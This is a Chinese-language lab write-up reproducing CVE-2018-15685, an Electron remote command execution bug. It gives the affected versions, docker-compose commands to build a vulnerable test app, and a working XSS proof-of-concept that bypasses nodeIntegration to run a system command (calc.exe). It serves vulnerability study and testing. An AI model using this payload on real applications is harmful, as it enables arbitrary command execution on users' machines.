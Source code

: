 （CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞
==========================================================

一、漏洞简介
------------

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

二、漏洞影响
------------

GitHub Electron 1.7.15版本，1.8.7版本，2.0.7版本，3.0.0-beta.6版本。

三、复现过程
------------

### 编译APP

执行如下命令编译一个包含漏洞的应用：

    docker-compose run -e PLATFORM=win64 --rm electron

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

    docker-compose run --rm -p 8080:80 web

此时，访问`http://www.0-sec.org:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

### 漏洞复现

在本地打开应用：

![](resource/(CVE-2018-15685)ElectronWebPreferences远程命令执行漏洞/media/rId26.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交\`\`，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

    <img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">

可见，calc.exe已成功弹出：

![](resource/(CVE-2018-15685)ElectronWebPreferences远程命令执行漏洞/media/rId27.png)

参考链接
--------

> https://vulhub.org/\#/environments/electron/CVE-2018-15685/
